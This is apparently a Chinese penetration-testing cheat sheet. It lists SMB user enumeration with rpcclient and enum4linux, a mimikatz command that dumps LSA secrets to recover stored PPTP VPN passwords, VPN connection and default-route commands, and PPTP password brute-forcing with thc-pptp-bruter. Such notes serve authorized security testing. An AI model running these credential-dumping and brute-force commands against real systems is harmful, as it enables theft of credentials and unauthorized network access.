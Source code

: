 - rpcclient
    ```bash
    rpcclient -U '' <目标IP>
        querydominfo
        enumdomusers
        queryuser <用户名>
    ```

- enum4linux
    ```bash
    enum4linux <目标IP>
    ```

---

# PPTP

**文章**
- [渗透技巧——PPTP口令的获取与爆破](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-PPTP%E5%8F%A3%E4%BB%A4%E7%9A%84%E8%8E%B7%E5%8F%96%E4%B8%8E%E7%88%86%E7%A0%B4/)

**获得PPTP 口令**

Windows系统拨号和宽带连接的配置信息存储在固定位置，路径如下：
 `%APPDATA%\Microsoft\Network\Connections\Pbk\rasphone.pbk` 查看该文件即可获得 PPTP 连接的配置信息，包括服务器 IP，不包含连接用户名和口令

```
mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```

**windows 命令行下连接 PPTP VPN**
```
rasdial "VPN Connection" username pass

# 关闭连接
rasphone -h "VPN Connection"
```

**kali 连接 PPTP VPN**
```bash
pptpsetup --create vpn --server xx.xx.xx.xx --username username --password pass --encrypt --start

# 将默认路由表修改为远程
route del default
route add default gw xx.xx.xx.xx
```

**暴力破解 PPTP 口令**

- 工具
    - [BlackArch/thc-pptp-bruter](https://github.com/BlackArch/thc-pptp-bruter) - kali 默认自带
        ```
        cat wordlist | thc-pptp-bruter -u username xx.xx.xx.xxx
        ```
    - [pptp_password_hack.py](https://github.com/3gstudent/Homework-of-Python/blob/master/pptp_password_hack.py)

---